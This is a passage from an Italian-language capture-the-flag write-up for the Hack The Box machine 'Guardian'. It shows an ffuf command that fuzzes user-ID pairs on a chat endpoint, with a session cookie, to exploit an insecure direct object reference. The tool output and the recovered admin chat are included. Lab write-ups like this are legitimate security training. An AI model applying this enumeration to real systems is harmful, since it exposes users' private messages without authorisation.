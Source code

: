 ```bash
$ seq 1 1 62 > ids.txt
```

E si sfrutta la vulnerabilita' e si filtrano le risposte, scartando quelle con il numero di linee piu' "comune".

```bash
$ ffuf -w ids.txt:FROM -w ids.txt:TO -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FROM&chat_users[1]=TO' -b 'PHPSESSID=d1q01d61ouk7vd0uleci36e7hk' -v -fl 164,178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://portal.guardian.htb/student/chat.php?chat_users[0]=FROM&chat_users[1]=TO
 :: Wordlist         : FROM: /home/kali/Desktop/HTB/Machines/Guardian/ids.txt
 :: Wordlist         : TO: /home/kali/Desktop/HTB/Machines/Guardian/ids.txt
 :: Header           : Cookie: PHPSESSID=d1q01d61ouk7vd0uleci36e7hk
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 164,178
________________________________________________

[Status: 200, Size: 7306, Words: 3055, Lines: 185, Duration: 53ms]
| URL | http://portal.guardian.htb/student/chat.php?chat_users[0]=2&chat_users[1]=1
    * FROM: 2
    * TO: 1

[Status: 200, Size: 7302, Words: 3055, Lines: 185, Duration: 58ms]
| URL | http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
    * FROM: 1
    * TO: 2

:: Progress: [3844/3844] :: Job [1/1] :: 623 req/sec :: Duration: [0:00:07] :: Errors: 0 ::

```

L'identificativo 1 corrisponde all'**admin**, mentre l'identificativo 2 corrisponde a **jamil.enockson**.

Si accede al contenuto della chat tra admin e jamil.
